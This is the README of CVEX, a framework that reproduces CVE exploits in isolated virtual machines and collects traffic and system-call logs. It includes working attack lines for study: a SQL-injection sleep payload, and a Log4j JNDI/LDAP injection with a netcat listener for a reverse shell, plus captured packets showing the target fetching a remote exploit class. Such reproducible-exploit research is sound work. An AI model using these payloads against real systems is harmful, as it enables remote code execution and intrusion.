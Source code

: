 # CVEX: eXecutable CVEs

What is CVEX?

CVEX is a framework for the reproducible exploitation of CVE vulnerabilities:
- Provides blueprints of pre-made exploitation setups, pre-configured with metadata collection facilities (raw traffic, HTTP/S requests, system calls/API calls).
- Uses virtualization to instantiate the blueprint and automatically execute the attack, supporting live analysis of exploitation.
- Separates infrastructure from CVE-related configuration allowing for reuse of blueprints.
- Incentivizes contributors to share reproducible exploits.

Tech stack:
- Virtualization: Vagrant
- Installation and configuration: Ansible
- Network traffic collection: tcpdump
- HTTPS collection: mitmproxy
- Linux syscall collection: strace
- Windows API collection: Process Monitor

## Install

CVEX has been tested on Ubuntu 24.04, 22.04, and 20.04.

Create virtual environment (optional):
```
python3 -m venv venv
source venv/bin/activate
```

Install CVEX:
```
~/CVEX$ sudo apt update
~/CVEX$ pip install -e .
```

Install Vagrant:
```
wget https://releases.hashicorp.com/vagrant/2.4.1/vagrant-2.4.1-1.x86_64.rpm
sudo apt install alien
sudo alien -i vagrant-2.4.1-1.x86_64.rpm
```

Install VirtualBox (**Ubuntu 22.04**):
```
wget https://download.virtualbox.org/virtualbox/7.0.20/virtualbox-7.0_7.0.20-163906~Ubuntu~jammy_amd64.deb
sudo dpkg -i virtualbox-7.0_7.0.20-163906~Ubuntu~jammy_amd64.deb
wget https://download.virtualbox.org/virtualbox/7.0.20/Oracle_VM_VirtualBox_Extension_Pack-7.0.20.vbox-extpack
sudo vboxmanage extpack install Oracle_VM_VirtualBox_Extension_Pack-7.0.20.vbox-extpack
```
Refer to the VirtualBox [download](https://www.oracle.com/virtualization/technologies/vm/downloads/virtualbox-downloads.html) page to find the appropriate package of VirtualBox that suits your OS. If dpkg shows errors during installation, run this command to fix them:
```
sudo apt --fix-broken install
```

While in theory Vagrant should work with any VM provider, CVEX was tested only with VirtualBox.

## Run

Execute CVE by providing the CVEX record folder to the `cvex` command:
```
~/CVEX$ cvex records/CVE-0000-00001
```

CVEX comes with a set of PoCs:
- [CVE-0000-00000](records/CVE-0000-00000): curl, executed on Windows, downloads a web-page from ngix, running on Ubuntu

<details>

<summary>Execution of CVE-0000-00000</summary>


[records/CVE-0000-00000/cvex.yml](records/CVE-0000-00000/cvex.yml) describes the VM infrastructure for this PoC:
```
blueprint: windows10-ubuntu2204
ubuntu:
  trace: nginx
  playbook: linux.yml
windows:
  trace: "curl"
  command: "curl https://ubuntu/index.html?cat=(select*from(select(sleep(15)))a)"
```

Full list of parameters of a CVEX record:
```
blueprint: ...   # Blueprint name from the "blueprints" folder
ports: ...       # HTTPS port(s) as integer or list of integers (optional; 443 by default)
...:             # Name of the VM as in the blueprint
  trace: ...     # Name of the process for API tracing (optional); for Windows: partial name of the process; for Linux: regular expression
  playbook: ...  # Ansible playbook (optional)
  command: ...   # Command or list of commands to execute on this VM (optional)
...:
  trace: ...
  playbook: ...
  command: ...
...
```

`command` is treated in a special way:
1. `%vm_name%` will be replaced with the IP address of the VM: `curl https://%ubuntu%:8080/` will turn into `curl https://192.168.56.3:8080/`
2. Optional `&` at the end of the command tells CVEX that it is non-blocking: for `curl https://%ubuntu%:8080/&` CVEX executes `curl https://192.168.56.3:8080/`, and then immediately executes next command without waiting for curl to finish execution
3. Optional `~~~` splits the command into two parts: 1) the command; 2) the message: for `curl https://%ubuntu%:8080/&~~~Downloaded` CVEX executes `curl https://192.168.56.3:8080/`, then waits until curl prints `Downloaded` to stdout, and then immediately executes next command without waiting for curl to finish execution

CVEX blueprints define minimal network deployments:
- Ubuntu host attacking Window host
- Window host attacking Ubuntu host
- Ubuntu host attacking multiple Windows hosts
- ...

Contributors can provide additional blueprints. In the case of CVE-0000-00000 the blueprint `windows10-ubuntu2204` is stored in [blueprints/windows10-ubuntu2204/blueprint.yml](blueprints/windows10-ubuntu2204/blueprint.yml):
```
windows:
  image: "gusztavvargadr/windows-10"
  version: "2202.0.2404"
  type: "windows"
ubuntu:
  image: "bento/ubuntu-22.04"
  version: "202404.23.0"
  type: "linux"
```

Full list of parameters of a blueprint:
```
...:             # Name of the VM
  image: ...     # Vagrant image
  version: ...   # Vagrant image version
  type: ...      # "windows" or "linux"
  playbook: ...  # Ansible playbook (optional)
...:
  image: ...
  version: ...
  type: ...
  playbook: ...
...
```

At first, CVEX pulls an Ubuntu VM from the Vagrant repository and stores the config file of the VM in `~/.cvex/router`. This VM will be the router. It also creates the `clean` snapshot with the initial state of the VM:
```
~/CVEX$ cvex records/CVE-0000-00000
2024-09-13 13:52:30,081 - INFO - [router] Retrieving status of router...
2024-09-13 13:52:32,820 - INFO - [router] Initializing a new VM router at /home/john/.cvex/router...
2024-09-13 13:52:33,766 - INFO - [router] Starting the VM router...
2024-09-13 13:54:41,199 - INFO - [router] Creating snapshot 'clean' for VM router (192.168.56.2)...
```

Ansible playbooks from [ansible](/ansible) are used to pre-configure VMs. CVEX runs the [ansible/router.yml](/ansible/router.yml) Ansible playbook before creating the `router` snapshot:
```
2024-09-13 13:54:56,344 - INFO - [router] Executing Ansible playbook ansible/router.yml...
2024-09-13 13:54:58,042 - INFO - [router] 
2024-09-13 13:54:58,043 - INFO - [router] PLAY [Router] ******************************************************************
2024-09-13 13:54:58,043 - INFO - [router] 
2024-09-13 13:54:58,043 - INFO - [router] TASK [Gathering Facts] *********************************************************
2024-09-13 13:55:01,136 - INFO - [router] [WARNING]: Platform linux on host router is using the discovered Python
2024-09-13 13:55:01,137 - INFO - [router] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-09-13 13:55:01,137 - INFO - [router] interpreter could change the meaning of that path. See
2024-09-13 13:55:01,137 - INFO - [router] https://docs.ansible.com/ansible-
2024-09-13 13:55:01,137 - INFO - [router] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-09-13 13:55:01,162 - INFO - [router] ok: [router]
2024-09-13 13:55:01,162 - INFO - [router] 
2024-09-13 13:55:01,166 - INFO - [router] TASK [Pull mitmproxy-10.3.1-linux-x86_64.tar.gz] *******************************
2024-09-13 13:55:20,994 - INFO - [router] changed: [router]
2024-09-13 13:55:20,994 - INFO - [router] 
2024-09-13 13:55:20,994 - INFO - [router] TASK [Run mitmdump] ************************************************************
2024-09-13 13:55:21,824 - INFO - [router] changed: [router]
2024-09-13 13:55:21,824 - INFO - [router] 
2024-09-13 13:55:21,824 - INFO - [router] TASK [Wait for ~/.mitmproxy] ***************************************************
2024-09-13 13:55:25,603 - INFO - [router] ok: [router]
2024-09-13 13:55:25,603 - INFO - [router] 
2024-09-13 13:55:25,603 - INFO - [router] TASK [Kill mitmdump] ***********************************************************
2024-09-13 13:55:26,131 - INFO - [router] changed: [router]
2024-09-13 13:55:26,131 - INFO - [router] 
2024-09-13 13:55:26,131 - INFO - [router] TASK [Copy certindex] **********************************************************
2024-09-13 13:55:27,643 - INFO - [router] changed: [router]
2024-09-13 13:55:27,643 - INFO - [router] 
2024-09-13 13:55:27,643 - INFO - [router] TASK [Copy default.cfg] ********************************************************
2024-09-13 13:55:29,027 - INFO - [router] changed: [router]
2024-09-13 13:55:29,027 - INFO - [router] 
2024-09-13 13:55:29,027 - INFO - [router] TASK [Generate CRL] ************************************************************
2024-09-13 13:55:29,556 - INFO - [router] changed: [router]
2024-09-13 13:55:29,557 - INFO - [router] 
2024-09-13 13:55:29,557 - INFO - [router] TASK [Convert CRL from PEM to DER] *********************************************
2024-09-13 13:55:30,088 - INFO - [router] changed: [router]
2024-09-13 13:55:30,088 - INFO - [router] 
2024-09-13 13:55:30,088 - INFO - [router] TASK [Fetch root.crl] **********************************************************
2024-09-13 13:55:30,711 - INFO - [router] changed: [router]
2024-09-13 13:55:30,711 - INFO - [router] 
2024-09-13 13:55:30,711 - INFO - [router] TASK [Fetch mitmproxy-ca-cert.cer] *********************************************
2024-09-13 13:55:31,336 - INFO - [router] changed: [router]
2024-09-13 13:55:31,336 - INFO - [router] 
2024-09-13 13:55:31,336 - INFO - [router] PLAY RECAP *********************************************************************
2024-09-13 13:55:31,337 - INFO - [router] router                     : ok=11   changed=9    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-09-13 13:55:31,461 - INFO - [router] Creating snapshot 'router' for VM router (192.168.56.2)...
```

After the router VM, CVEX runs the Windows VM:
```
2024-09-13 13:55:43,939 - INFO - [windows] Initializing a new VM windows at /home/john/.cvex/gusztavvargadr_windows-10/2202.0.2404/1...
2024-09-13 13:55:44,936 - INFO - [windows] Starting the VM windows...
```

Sometimes VM initialization takes longer than expected:
```
2024-09-13 14:03:41,858 - CRITICAL - [windows] VM windows timed out. Please wait until the VM is started and then re-start CVEX with the '-k' parameter.
```

In this case we need to wait until the VM is up and the OS is aready. For example, use the VirtualBox GUI. As soon as the OS fully loads, re-run CVEX with `-k`. With this parameter CVEX uses the VMs that are already running:
```
$ cvex records/CVE-0000-00000 -k
2024-09-13 14:25:18,880 - INFO - [router] Retrieving status of router...
2024-09-13 14:25:23,828 - INFO - [router] VM router (192.168.56.2) is already running
2024-09-13 14:25:26,910 - INFO - [router] Retrieving snapshot list of router...
2024-09-13 14:25:29,701 - INFO - [windows] Looking for a VM with CVE-0000-00000/windows snapshot...
2024-09-13 14:25:35,875 - INFO - [windows] Retrieving status of windows...
2024-09-13 14:25:41,071 - INFO - [windows] VM windows (192.168.56.3) is already running
2024-09-13 14:25:45,390 - INFO - [windows] Retrieving snapshot list of windows...
2024-09-13 14:25:51,738 - INFO - [windows] Creating snapshot 'clean' for VM windows (192.168.56.3)...
```

Be mindful, `cvex -k` will also leave the VMs running (which is great for debugging).

CVEX runs the [ansible/windows.yml](/ansible/windows.yml) Ansible playbook before creating the `CVE-0000-00000/windows` snapshot:
```
2024-09-13 14:26:30,209 - INFO - [windows] Executing Ansible playbook ansible/windows.yml...
2024-09-13 14:26:31,345 - INFO - [windows] 
2024-09-13 14:26:31,346 - INFO - [windows] PLAY [Windows] *****************************************************************
2024-09-13 14:26:31,346 - INFO - [windows] 
2024-09-13 14:26:31,346 - INFO - [windows] TASK [Gathering Facts] *********************************************************
2024-09-13 14:27:21,945 - INFO - [windows] ok: [windows]
2024-09-13 14:27:21,946 - INFO - [windows] 
2024-09-13 14:27:21,946 - INFO - [windows] TASK [Create C:\Tools] *********************************************************
2024-09-13 14:28:04,478 - INFO - [windows] changed: [windows]
2024-09-13 14:28:04,478 - INFO - [windows] 
2024-09-13 14:28:04,479 - INFO - [windows] TASK [Download Process Monitor] ************************************************
2024-09-13 14:28:42,227 - INFO - [windows] changed: [windows]
2024-09-13 14:28:42,227 - INFO - [windows] 
2024-09-13 14:28:42,227 - INFO - [windows] TASK [Unzip ProcessMonitor.zip] ************************************************
2024-09-13 14:29:19,518 - INFO - [windows] changed: [windows]
2024-09-13 14:29:19,518 - INFO - [windows] 
2024-09-13 14:29:19,518 - INFO - [windows] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-09-13 14:32:03,983 - INFO - [windows] changed: [windows]
2024-09-13 14:32:03,983 - INFO - [windows] 
2024-09-13 14:32:03,983 - INFO - [windows] TASK [Install mitmproxy-ca-cert.cer] *******************************************
2024-09-13 14:32:50,823 - INFO - [windows] changed: [windows]
2024-09-13 14:32:50,823 - INFO - [windows] 
2024-09-13 14:32:50,823 - INFO - [windows] TASK [Copy root.crl] ***********************************************************
2024-09-13 14:35:47,857 - INFO - [windows] changed: [windows]
2024-09-13 14:35:47,858 - INFO - [windows] 
2024-09-13 14:35:47,858 - INFO - [windows] TASK [Install root.crl] ********************************************************
2024-09-13 14:36:31,914 - INFO - [windows] changed: [windows]
2024-09-13 14:36:31,914 - INFO - [windows] 
2024-09-13 14:36:31,914 - INFO - [windows] PLAY RECAP *********************************************************************
2024-09-13 14:36:31,914 - INFO - [windows] windows                    : ok=8    changed=7    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-09-13 14:36:31,914 - INFO - [windows] 
2024-09-13 14:36:32,194 - INFO - [windows] Creating snapshot 'CVE-0000-00000/windows' for VM windows (192.168.56.3)...
```

After the Windows VM, CVEX runs the Ubuntu VM:
```
2024-09-13 14:37:03,308 - INFO - [ubuntu] Looking for a VM with CVE-0000-00000/ubuntu snapshot...
2024-09-13 14:37:05,749 - INFO - [ubuntu] Retrieving status of ubuntu...
2024-09-13 14:37:07,563 - INFO - [ubuntu] Initializing a new VM ubuntu at /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1...
2024-09-13 14:37:09,382 - INFO - [ubuntu] Starting the VM ubuntu...
2024-09-13 14:40:50,765 - INFO - [ubuntu] Creating snapshot 'clean' for VM ubuntu (192.168.56.4)...
```

When the VM is up, CVEX runs the [ansible/linux.yml](/ansible/linux.yml) Ansible playbook:
```
2024-09-13 14:41:11,647 - INFO - [ubuntu] Executing Ansible playbook ansible/linux.yml...
2024-09-13 14:41:13,576 - INFO - [ubuntu] 
2024-09-13 14:41:13,576 - INFO - [ubuntu] PLAY [Linux] *******************************************************************
2024-09-13 14:41:13,576 - INFO - [ubuntu] 
2024-09-13 14:41:13,576 - INFO - [ubuntu] TASK [Gathering Facts] *********************************************************
2024-09-13 14:41:19,893 - INFO - [ubuntu] [WARNING]: Platform linux on host ubuntu is using the discovered Python
2024-09-13 14:41:19,893 - INFO - [ubuntu] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-09-13 14:41:19,893 - INFO - [ubuntu] interpreter could change the meaning of that path. See
2024-09-13 14:41:19,893 - INFO - [ubuntu] https://docs.ansible.com/ansible-
2024-09-13 14:41:19,894 - INFO - [ubuntu] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-09-13 14:41:19,921 - INFO - [ubuntu] ok: [ubuntu]
2024-09-13 14:41:19,922 - INFO - [ubuntu] 
2024-09-13 14:41:19,922 - INFO - [ubuntu] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-09-13 14:41:22,855 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:41:22,855 - INFO - [ubuntu] 
2024-09-13 14:41:22,856 - INFO - [ubuntu] TASK [Run update-ca-certificates] **********************************************
2024-09-13 14:41:34,967 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:41:34,967 - INFO - [ubuntu] 
2024-09-13 14:41:34,967 - INFO - [ubuntu] PLAY RECAP *********************************************************************
2024-09-13 14:41:34,968 - INFO - [ubuntu] ubuntu                     : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
```

[records/CVE-0000-00000/cvex.yml](records/CVE-0000-00000/cvex.yml) has an optional parameter `playbook: linux.yml` that specifies the custom Ansible playbook. In our case it installs nginx before creating the `CVE-0000-00000/ubuntu` snapshot:
```
2024-09-13 14:41:35,241 - INFO - [ubuntu] Executing Ansible playbook records/CVE-0000-00000/linux.yml...
2024-09-13 14:41:36,711 - INFO - [ubuntu] 
2024-09-13 14:41:36,711 - INFO - [ubuntu] PLAY [Linux target] ************************************************************
2024-09-13 14:41:36,711 - INFO - [ubuntu] 
2024-09-13 14:41:36,711 - INFO - [ubuntu] TASK [Gathering Facts] *********************************************************
2024-09-13 14:41:41,105 - INFO - [ubuntu] [WARNING]: Platform linux on host ubuntu is using the discovered Python
2024-09-13 14:41:41,105 - INFO - [ubuntu] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-09-13 14:41:41,106 - INFO - [ubuntu] interpreter could change the meaning of that path. See
2024-09-13 14:41:41,106 - INFO - [ubuntu] https://docs.ansible.com/ansible-
2024-09-13 14:41:41,106 - INFO - [ubuntu] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-09-13 14:41:41,138 - INFO - [ubuntu] ok: [ubuntu]
2024-09-13 14:41:41,138 - INFO - [ubuntu] 
2024-09-13 14:41:41,138 - INFO - [ubuntu] TASK [Install nginx 1.18.0] ****************************************************
2024-09-13 14:42:43,406 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:43,406 - INFO - [ubuntu] 
2024-09-13 14:42:43,406 - INFO - [ubuntu] TASK [Copy default.conf] *******************************************************
2024-09-13 14:42:45,154 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:45,154 - INFO - [ubuntu] 
2024-09-13 14:42:45,154 - INFO - [ubuntu] TASK [Copy certificate] ********************************************************
2024-09-13 14:42:46,761 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:46,761 - INFO - [ubuntu] 
2024-09-13 14:42:46,761 - INFO - [ubuntu] TASK [Copy key] ****************************************************************
2024-09-13 14:42:48,310 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:48,310 - INFO - [ubuntu] 
2024-09-13 14:42:48,310 - INFO - [ubuntu] TASK [Copy index.html] *********************************************************
2024-09-13 14:42:50,012 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:50,012 - INFO - [ubuntu] 
2024-09-13 14:42:50,012 - INFO - [ubuntu] TASK [Restart nginx] ***********************************************************
2024-09-13 14:42:51,638 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:51,638 - INFO - [ubuntu] 
2024-09-13 14:42:51,638 - INFO - [ubuntu] PLAY RECAP *********************************************************************
2024-09-13 14:42:51,639 - INFO - [ubuntu] ubuntu                     : ok=7    changed=6    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-09-13 14:42:51,639 - INFO - [ubuntu] 
2024-09-13 14:42:51,776 - INFO - [ubuntu] Creating snapshot 'CVE-0000-00000/ubuntu' for VM ubuntu (192.168.56.4)...
```

Every VM may have maximum 3 Ansible playbooks:
1. Configuration playbook ([ansible/linux.yml](/ansible/linux.yml)) - controlled by CVEX developers
2. Blueprint playbook (none in our case) - controlled by CVEX blueprint contributors
3. CVE playbook ([records/CVE-0000-00000/linux.yml](records/CVE-0000-00000/linux.yml)) - controlled by CVEX users

At this point all VMs (router, Windows, Ubuntu) are up and running, the needed software is installed and the needed VM snapshots are created. CVEX performs the following actions:
- Configures the hosts file on every VM except the router
- Sets up static network interface IP addresses on every VM
- Configures the routing so that all network traffic flows through the router VM
- Runs tcpdump on the router
- Runs mitmproxy on the router
- Runs strace on Linux VMs
- Runs Process Monitor on Windows VMs

```
2024-09-13 14:43:04,575 - INFO - [router] Executing 'ls /etc/netplan'...
2024-09-13 14:43:07,653 - INFO - [router] Downloading /etc/netplan/00-installer-config.yaml...
2024-09-13 14:43:07,731 - INFO - [router] Downloading /etc/netplan/01-netcfg.yaml...
2024-09-13 14:43:07,760 - INFO - [router] Downloading /etc/netplan/50-vagrant.yaml...
2024-09-13 14:43:07,805 - INFO - [router] Uploading /tmp/cvex.yaml...
2024-09-13 14:43:07,828 - INFO - [router] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-09-13 14:43:07,894 - INFO - [router] Executing 'sudo ip link set eth1 up'...
2024-09-13 14:43:08,017 - INFO - [router] Executing 'sudo netplan apply'...
2024-09-13 14:43:12,316 - INFO - [router] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-09-13 14:43:12,402 - INFO - [router] Executing 'sudo systemctl restart ufw'...
2024-09-13 14:43:12,531 - INFO - [windows] Executing 'netsh interface ipv4 show inter'...
2024-09-13 14:43:13,943 - INFO - [windows] Executing 'netsh interface ipv4 set interface 5 dadtransmits=0 store=persistent'...
2024-09-13 14:43:14,155 - INFO - [windows] Executing 'powershell "Get-NetAdapter -Name 'Ethernet 2' | New-NetIPAddress -IPAddress 192.168.56.3 -DefaultGateway 192.168.56.2 -PrefixLength 24"'...
2024-09-13 14:43:35,697 - INFO - [windows] Executing 'powershell "Disable-NetAdapter -Name 'Ethernet 2' -Confirm:$False"'...
2024-09-13 14:43:50,320 - INFO - [windows] Executing 'powershell "Enable-NetAdapter -Name 'Ethernet 2' -Confirm:$False"'...
2024-09-13 14:44:04,036 - INFO - [windows] Executing 'route DELETE 192.168.56.0'...
2024-09-13 14:44:04,156 - INFO - [windows] Executing 'route print'...
2024-09-13 14:44:04,339 - INFO - [windows] Executing 'route ADD 192.168.56.0 MASK 255.255.255.0 192.168.56.2 if 5'...
2024-09-13 14:44:04,463 - INFO - [windows] Downloading /C:\Windows\System32\drivers\etc\hosts...
2024-09-13 14:44:04,691 - INFO - [windows] Uploading /C:\Windows\System32\drivers\etc\hosts...
2024-09-13 14:44:04,713 - INFO - [ubuntu] Executing 'ls /etc/netplan'...
2024-09-13 14:44:07,449 - INFO - [ubuntu] Downloading /etc/netplan/00-installer-config.yaml...
2024-09-13 14:44:07,542 - INFO - [ubuntu] Downloading /etc/netplan/01-netcfg.yaml...
2024-09-13 14:44:07,613 - INFO - [ubuntu] Downloading /etc/netplan/50-vagrant.yaml...
2024-09-13 14:44:07,650 - INFO - [ubuntu] Uploading /tmp/cvex.yaml...
2024-09-13 14:44:07,698 - INFO - [ubuntu] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-09-13 14:44:07,749 - INFO - [ubuntu] Executing 'sudo ip link set eth1 up'...
2024-09-13 14:44:07,866 - INFO - [ubuntu] Executing 'sudo netplan apply'...
2024-09-13 14:44:11,357 - INFO - [ubuntu] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-09-13 14:44:11,452 - INFO - [ubuntu] Executing 'sudo systemctl restart ufw'...
2024-09-13 14:44:11,604 - INFO - [ubuntu] Downloading /etc/hosts...
2024-09-13 14:44:11,674 - INFO - [ubuntu] Uploading /tmp/hosts...
2024-09-13 14:44:11,693 - INFO - [ubuntu] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-09-13 14:44:11,772 - INFO - [router] Executing 'pkill mitmdump'...
2024-09-13 14:44:11,850 - INFO - [router] Executing 'sudo pkill tcpdump'...
2024-09-13 14:44:11,965 - INFO - [router] Executing 'rm -rf /tmp/cvex'...
2024-09-13 14:44:12,021 - INFO - [router] Executing 'mkdir /tmp/cvex'...
2024-09-13 14:44:12,092 - INFO - [router] Executing 'sudo sysctl net.ipv4.ip_forward=1'...
2024-09-13 14:44:12,181 - INFO - [router] Executing 'sudo tcpdump -i eth1 -U -w /tmp/cvex/router_raw.pcap'...
2024-09-13 14:44:12,238 - INFO - [router] Executing 'sudo iptables -t nat -I PREROUTING --src 0/0 --dst 0/0 -p tcp --dport 443 -j REDIRECT --to-ports 8080'...
2024-09-13 14:44:12,847 - INFO - [router] Executing 'mitmdump --mode transparent -k --set block_global=false -w /tmp/cvex/router_mitmdump.stream'...
2024-09-13 14:44:18,321 - INFO - [windows] Executing 'taskkill /IM Procmon.exe /F'...
2024-09-13 14:44:18,675 - INFO - [windows] Executing 'rmdir /S /Q C:\cvex'...
2024-09-13 14:44:18,765 - INFO - [windows] Executing 'mkdir C:\cvex'...
2024-09-13 14:44:18,852 - INFO - [windows] Uploading /C:\cvex\config.pmc...
2024-09-13 14:44:18,894 - INFO - [windows] Executing 'C:\Tools\Procmon64.exe /AcceptEula /BackingFile C:\cvex\procmon.pml /LoadConfig C:\cvex\config.pmc /Quiet'...
2024-09-13 14:44:18,917 - INFO - [ubuntu] Executing 'sudo pkill strace'...
2024-09-13 14:44:19,008 - INFO - [ubuntu] Executing 'rm -rf /tmp/cvex'...
2024-09-13 14:44:19,078 - INFO - [ubuntu] Executing 'mkdir /tmp/cvex'...
2024-09-13 14:44:19,133 - INFO - [ubuntu] Executing 'ps -ax | egrep "nginx" | grep -v grep'...
2024-09-13 14:44:19,238 - INFO - [ubuntu] Executing 'sudo strace -p 3934 -o /tmp/cvex/ubuntu_strace_nginx_3934.log -v'...
2024-09-13 14:44:19,399 - INFO - [ubuntu] Executing 'sudo strace -p 3935 -o /tmp/cvex/ubuntu_strace_nginx_3935.log -v'...
2024-09-13 14:44:19,527 - INFO - [ubuntu] Executing 'sudo strace -p 3936 -o /tmp/cvex/ubuntu_strace_nginx_3936.log -v'...
```


At this point all VMs are ready to reproduce the CVE. CVEX executes the command from `cvex.yml`:
```
2024-09-13 14:44:19,648 - INFO - [windows] Executing 'curl https://ubuntu/index.html?cat=(select*from(select(sleep(15)))a)'...
```

The curl command has succeeded. CVEX downloads logs and puts them to the default output folder `out`:
- From router: tcpdump's PCAP file
- From router: mitmdump's log file
- From Windows: Process Monitor's log file
- From Linux: strace's log files

Parameter `-o` specifies custom output folder.

```
2024-09-13 14:44:21,063 - INFO - [windows] Executing 'C:\Tools\Procmon64.exe /AcceptEula /Terminate'...
2024-09-13 14:44:30,975 - INFO - [windows] Executing 'C:\Tools\Procmon64.exe /AcceptEula /OpenLog C:\cvex\procmon.pml /SaveAs C:\cvex\procmon.xml'...
2024-09-13 14:44:31,948 - INFO - [windows] Downloading /C:\cvex\procmon.pml...
2024-09-13 14:44:32,644 - INFO - [windows] Downloading /C:\cvex\procmon.xml...
2024-09-13 14:44:33,304 - INFO - [ubuntu] Downloading /tmp/cvex/ubuntu_strace_nginx_3934.log...
2024-09-13 14:44:33,403 - INFO - [ubuntu] Downloading /tmp/cvex/ubuntu_strace_nginx_3935.log...
2024-09-13 14:44:33,436 - INFO - [ubuntu] Downloading /tmp/cvex/ubuntu_strace_nginx_3936.log...
2024-09-13 14:44:33,471 - INFO - [router] Wait for 5 seconds to let tcpdump and mitmdump flush logs on disk...
2024-09-13 14:44:38,472 - INFO - [router] Downloading /tmp/cvex/router_raw.pcap...
2024-09-13 14:44:38,524 - INFO - [router] Downloading /tmp/cvex/router_mitmdump.stream...
```
</details>

- [CVE-0000-00001](records/CVE-0000-00001): curl, executed on Ubuntu, downloads a web-page from ngix, running on another Ubuntu
- [CVE-0000-00002](records/CVE-0000-00002): curl, executed on Ubuntu, downloads a web-page from ngix, running on Windows
- [CVE-0000-00003](records/CVE-0000-00003): curl, executed on Windows, downloads a web-page from ngix, running on another Windows
- [CVE-2021-44228](records/CVE-2021-44228): Log4j vulnerability with backconnect to remote shell

<details>
<summary>CVE-2021-44228 logs analysis</summary>

[records/CVE-2021-44228/cvex.yml](records/CVE-2021-44228/cvex.yml) describes the VM infrastructure for this CVE:

```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
ubuntu2:
  playbook: ubuntu2.yml
  trace: "curl|python3|nc|java"
  command:
    - "python3 /opt/log4j-shell-poc/poc.py --userip %ubuntu2% --webport 9999 --lport 1234&~~~Listening on 0.0.0.0:1389"
    - "nc -nvlp 1234&~~~Listening on 0.0.0.0 1234"
    # Web server may not reply, which will cause curl to hang
    - "curl -d 'uname=%24%7Bjndi%3Aldap%3A%2F%2F%ubuntu2%%3A1389%2Fa%7D&password=' http://ubuntu1:8080/login&"
    - "sleep 10"
```

Ansible playbook `ubuntu1.yml` installs an Apache Tomcat based web application, vulnerable to the Log4j attack. Ansible playbook `ubuntu2.yml` installs a fake LDAP server and a web server that is hosting the payload.

Since the execution process has been already described in the section `Execution of CVE-0000-00000`, let's focus on analysis of logs produced by CVEX. In our logs the IP address of `ubuntu1` is `192.168.56.3`, the IP address of `ubuntu2` is `192.168.56.4`.

To inspect the PCAP file, run tcpdump:
```
~/CVEX$ tcpdump -qns 0 -A -r out/router_raw.pcap
```

The attacker `192.168.56.4` (`ubuntu2`) issues an HTTP POST request to Apache Tomcat running on `192.168.56.3` (`ubuntu1`). The POST request contains malicious data `${jndi:ldap://192.168.56.4:1389/a}` in the `uname` field. The data is URL-encoded:
```
15:34:03.050477 IP 192.168.56.4.36880 > 192.168.56.3.8080: tcp 219
E....t@.@.....8...8.....:.u................
.....$C.POST /login HTTP/1.1
Host: ubuntu1:8080
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 68
Content-Type: application/x-www-form-urlencoded

uname=%24%7Bjndi%3Aldap%3A%2F%2F192.168.56.4%3A1389%2Fa%7D&password=
```

Log4j logs the `${jndi:ldap://192.168.56.4:1389/a}` string. This triggers the JNDI manager to make a request to the LDAP server controlled by the attacker (`192.168.56.4:1389`). The LDAP server replies with a link to the payload:
```
15:34:04.187067 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 148
E.....@.@.d...8...8..m.V.:..Z3.I...........
.....$G.0.....d....a0..0...javaClassName1...foo0+..javaCodeBase1...http://192.168.56.4:9999/0$..objectClass1...javaNamingReference0...javaFactory1	..Exploit
15:34:04.187088 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 148
E.....@.?.e...8...8..m.V.:..Z3.I...........
.....$G.0.....d....a0..0...javaClassName1...foo0+..javaCodeBase1...http://192.168.56.4:9999/0$..objectClass1...javaNamingReference0...javaFactory1	..Exploit
15:34:04.191353 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 14
E..B..@.@.em..8...8..m.V.:..Z3.I...........
.....$G.0....e.
......
```

JNDI manager requests the payload hosted on `http://192.168.56.4:9999/Exploit.class`:
```
